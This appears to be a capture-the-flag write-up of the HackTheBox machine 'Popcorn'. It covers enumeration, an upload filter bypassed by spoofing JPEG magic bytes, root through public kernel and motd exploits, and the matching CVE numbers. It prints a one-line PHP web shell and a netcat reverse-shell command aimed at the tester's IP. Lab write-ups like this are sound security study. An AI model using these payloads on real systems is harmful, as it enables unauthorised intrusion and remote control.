 ```yaml
---
title: Popcorn
author: siresire
date: 2024-03-01 22:10:00 +0800
categories: [Hackthebox,Linux,Medium]
tags: [LFI,sqlmap,burp, CVE]
render_with_liquid: false
---
```


## Enumerations 

### Nmap scan

```bash
nmap -sV -A -T4 -vv -oN nmap.scans 10.10.10.6
```
![Alt text](/assets/img/htb/Popcorn/pp1.png)

There were 2 port open under 1000 ports 

- port 80
- port 22

### Port 80

port 80 website looked like this here

![Alt text](/assets/img/htb/Popcorn/pp2.png)


Did a `dirseach` using the following command 

```yaml
gobuster dir -u http://popcorn.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

```
![Alt text](/assets/img/htb/Popcorn/pp3.png)


I discovered a webpage torrent within the browser, located in the `\torrent` directory.

![Alt text](/assets/img/htb/Popcorn/pp4.png)

I attempted to log in using the credentials `admin` for both username and password, captured the request, and then used SQLMap to test for SQL injection vulnerabilities.

![Alt text](/assets/img/htb/Popcorn/pp5.png)


```yaml
sqlmap -r login.req
```

![Alt text](/assets/img/htb/Popcorn/pp6.png)

### torrent directory

On the webpage, when I attempted to upload a PNG image, I encountered an error  due to either file sanitization processes or restrictions on the types of permissible files.

![Alt text](/assets/img/htb/Popcorn/pp7.png)


Tried to upload a file with a `.torrent` extension, and the upload was successful.but I couldn't find where the file was processed so it was a rabbit hole

![Alt text](/assets/img/htb/Popcorn/pp8.png)

After pocking around ,I discovered an upload folder containing PNG screenshots.

![Alt text](/assets/img/htb/Popcorn/pp9.png)


So, I proceeded to attempt to edit the screenshot image.

![Alt text](/assets/img/htb/Popcorn/pp10.png)

and the screenshot was successfully saved in the upload folder.

![Alt text](/assets/img/htb/Popcorn/pp11.png)


When attempting to upload an LFI PHP script, we encountered an `Invalid file` error, likely due to file sanitization measures.

### LFI

```yaml
 <?php system($_GET['lfi']); ?>
```
![Alt text](/assets/img/htb/Popcorn/pp13.png)


Checking the previously uploaded files, it appears that the backend only accepts files in `.jpg `format.

![Alt text](/assets/img/htb/Popcorn/pp12.png)

So, I tricked the server by modifying the headers of the PHP file to match the magic bytes of a JPG file.

![Alt text](/assets/img/htb/Popcorn/pp14.png)

In Burp, I made the following modifications in order to trick the server into thinking that the file is a JPEG.[link](https://en.wikipedia.org/wiki/List_of_file_signatures)

![Alt text](/assets/img/htb/Popcorn/pp15.png)

and I had a success , so I checked the `uploads` directory and confirmed that the file was indeed uploaded.

![Alt text](/assets/img/htb/Popcorn/pp16.png)

Now, with the URL, we have achieved command execution.

![Alt text](/assets/img/htb/Popcorn/pp17.png)

To establish a more robust shell, I utilized `nc` (netcat) to obtain a reverse shell.

```yaml
nc -c /bin/bash 10.10.16.15 4444
```
After encoding it in URL format, I executed it via Burp and successfully gained a shell.

![Alt text](/assets/img/htb/Popcorn/pp18.png)

During manual enumeration, no credentials were discovered. However, upon uploading LinPEAS, credentials were found.

![Alt text](/assets/img/htb/Popcorn/pp19.png)

checking MySQL, we found a database named `torrenthoster`.

![Alt text](/assets/img/htb/Popcorn/pp20.png)



In the torrenthoster database, there was a table named users containing the following credentials, although they were no of use.

### To Root method 1

![Alt text](/assets/img/htb/Popcorn/pp21.png)

After running linux-exploit-suggester we had this `full-nelson` which  was promising

![Alt text](/assets/img/htb/Popcorn/pp22.png)


After downloading the exploit, I compiled it using GCC, then executed it, which resulted in obtaining root access.

![Alt text](/assets/img/htb/Popcorn/pp23.png)


### Method 2

Using the find command to list files owned by George, I noticed something unusual: the presence of the `motd` file.
```bash
find / -user george 2>/dev/null
```
![Alt text](/assets/img/htb/Popcorn/pp24.png)

Searching in Searchsploit, we found an exploit related to binary-to-root privilege escalation, specifically targeting version number `Release: 9.10.`

![Alt text](/assets/img/htb/Popcorn/pp25.png)

After downloading the exploit onto the machine, I executed it, and as a result, I gained root access.

![Alt text](/assets/img/htb/Popcorn/pp26.png)


## CVE-2010-0832 and CVE-2010-4258
